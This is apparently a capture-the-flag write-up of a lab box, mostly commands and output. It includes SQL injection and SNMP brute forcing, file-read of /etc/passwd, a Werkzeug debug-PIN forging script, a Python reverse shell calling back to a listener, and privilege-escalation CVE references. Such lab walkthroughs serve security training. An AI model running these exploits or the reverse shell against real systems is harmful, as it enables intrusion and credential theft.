

## Plain Sight

1. Find source code
2. Find the flag

## Take a Look Around

1. Scan TCP
2. Scan UDP
3. Scan Wordpress

```js
/?author=1
```

found `aas` possibly a username

10.13.37.11:5000/console

Asked for pin

```js
<script type="text/javascript">
    var TRACEBACK = -1,
        CONSOLE_MODE = true,
        EVALEX = true,
        EVALEX_TRUSTED = false,
        SECRET = "uobfkYaQgRBpfXx0GkO1";
</script>
```

```py
use exploit/multi/http/werkzeug_debug_rce
set rport <port>
set rhost <ip>
check [+] 10.108.106.201:8081 - The target is vulnerable.
set payload python/meterpreter/reverse_tcp
set lhost <ip>
exploit
```

```sh
● ● λ dig @10.13.37.11 -x 10.13.37.11
;; communications error to 10.13.37.11#53: connection refused
;; communications error to 10.13.37.11#53: timed out
;; communications error to 10.13.37.11#53: timed out

; <<>> DiG 9.18.18-0ubuntu0.22.04.2-Ubuntu <<>> @10.13.37.11 -x 10.13.37.11
; (1 server found)
;; global options: +cmd
;; no servers could be reached

● ● λ nslookup 10.13.37.11                                      
11.37.13.10.in-addr.arpa        name = 10.13.37.11.

Authoritative answers can be found from:

● ● λ dig 10.13.37.11                

; <<>> DiG 9.18.18-0ubuntu0.22.04.2-Ubuntu <<>> 10.13.37.11
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 14155
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;10.13.37.11.                   IN      A

;; AUTHORITY SECTION:
.                       10800   IN      SOA     a.root-servers.net. nstld.verisign-grs.com. 2024032702 1800 900 604800 86400

;; Query time: 348 msec
;; SERVER: 127.0.0.53#53(127.0.0.53) (UDP)
;; WHEN: Wed Mar 27 23:19:00 -03 2024
;; MSG SIZE  rcvd: 115
```

```bash
docker run -it --rm wpscanteam/wpscan --url http://10.13.37.11/ --enumerate u > wpascan
```

```bash
python3 sqlmap.py --batch --level 3 --risk 3 --dbs --data='{"log": "aas", "pwd": "*", "wp-submit": "Log In"} -u 'http://10.13.37.11/wp-login.php' --cookie='wordpress_test_cookie=WP+Cookie+check' --ignore-code 401
```

```
python3 snmpbrute.py -t 10.13.37.11 -f ~/Documents/Security/wordlists/common-snmp-community-strings-onesixtyone.txt
Identified Community strings
        0) 10.13.37.11     public (v1)(RO)
        1) 10.13.37.11     public (v2c)(RO)
Destination             Next Hop        Mask                    Metric  Interface       Type    Protocol        Age
        -----------             --------        ----                    ------  ---------       ----    --------        ---
        0.0.0.0                 10.13.37.2      0.0.0.0                   1         2            4         2            OID
```

```bash
onesixtyone -c ~/Documents/Security/wordlists/common-snmp-community-strings-onesixtyone.txt 10.13.37.11
Scanning 1 hosts, 121 communities
10.13.37.11 [public] Linux Leakage 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64
10.13.37.11 [public] Linux Leakage 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64
```

```bash
snmpbulkwalk -c public -v1 10.13.37.11
snmpbulkwalk -c public -v2c 10.13.37.11
```

```
/var/www/html/scripts/backup_every_17minutes.sh
```



## Dead Poets

```bash
curl -X POST http://10.13.37.11/scripts/backup_every_17minutes.sh
#!/bin/bash
#
# This script performs backups of production and development websites.
# Backups are done every 17 minutes.
#
# AKERVA{}
#

SAVE_DIR=/var/www/html/backups

while true
do
        ARCHIVE_NAME=backup_$(date +%Y%m%d%H%M%S)
        echo "Erasing old backups..."
        rm -rf $SAVE_DIR/*

        echo "Backuping..."
        zip -r $SAVE_DIR/$ARCHIVE_NAME /var/www/html/*

        echo "Done..."
        sleep 1020
done
```

## Now You See Me

Find backup file

Obtain server time

```bash
curl -vvv 10.13.37.10
*   Trying 10.13.37.10:80...
* Connected to 10.13.37.10 (10.13.37.10) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.13.37.10
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.10.3 (Ubuntu)
< Date: Thu, 28 Mar 2024 23:18:39 GMT
< Content-Type: text/html
< Content-Length: 891
< Last-Modified: Fri, 22 Dec 2017 09:18:31 GMT
< Connection: keep-alive
< ETag: "5a3ccde7-37b"
< Accept-Ranges: bytes
```

```bash
wfpayload -z range --zD 0000-6000 > payload.txt
wfuzz -c --hw=31 --hc=404 -w payload.txt http://10.13.37.11/backups/backup_2024032823FUZZ.zip
```

Read `space_dev.py` and there is a flag

## Open Book

Look around the application

We can now login to :5000/ with credentials found in `space_dev.py`

```bash
http://10.13.37.11:5000/file?filename=/etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin aas:x:1000:1000:Lyderic Lefebvre:/home/aas:/bin/bash sshd:x:110:65534::/run/sshd:/usr/sbin/nologin Debian-snmp:x:111:113::/var/lib/snmp:/bin/false mysql:x:109:115:MySQL Server,,,:/nonexistent:/bin/false 

http://10.13.37.11:5000/file?filename=/proc/self/environ
LANG=en_US.UTF-8SHELL=/bin/shSHLVL=1WERKZEUG_RUN_MAIN=truePWD=/home/aasWERKZEUG_SERVER_FD=3LOGNAME=aasHOME=/home/aasPATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin_=/var/www/html/dev/space_dev.py

http://10.13.37.11:5000/file?filename=/home/aas/flag.txt
```

## Say Friend and Enter

```py
import hashlib
from itertools import chain
probably_public_bits = [
    'aas',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc'  # getattr(mod, '__file__', None),
]

private_bits = [
    '345052361053',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    '258f132cd7e647caaf5510e3aca997c1'  # get_machine_id(), /etc/machine-id
]

# h= hashlib.sha1() 
h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

With this we obtain a PIN which is `271-432-113` and we can access the console

```bash
nc -lvnp 4444
```

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

Once we are inside we do a `ls -la` and found `.hiddenflag.txt`

## Super Mushroom

```bash
/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
define( 'DB_NAME', 'wordpress' );                                                                                                                                         
define( 'DB_USER', 'wordpress' );                                                                                                                                         
define( 'DB_PASSWORD', 'ZokDHE_DJ_____enzU)=' );                                                                                                                          
define( 'DB_HOST', 'localhost' );
aas:$apr1$a1aqCzW8$hsRSvlom8SfX/R5Dql4CZ0
```

Obtain sudo with `https://github.com/CptGibbon/CVE-2021-3156`

## Little Secret

read `secure_note.md` and found a base64 encoded string

Decode base64 then VIGENERE

## Links

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp/snmp-rce
- https://blog.gregscharf.com/2023/04/09/lfi-to-rce-in-flask-werkzeug-application/
- https://github.com/CptGibbon/CVE-2021-3156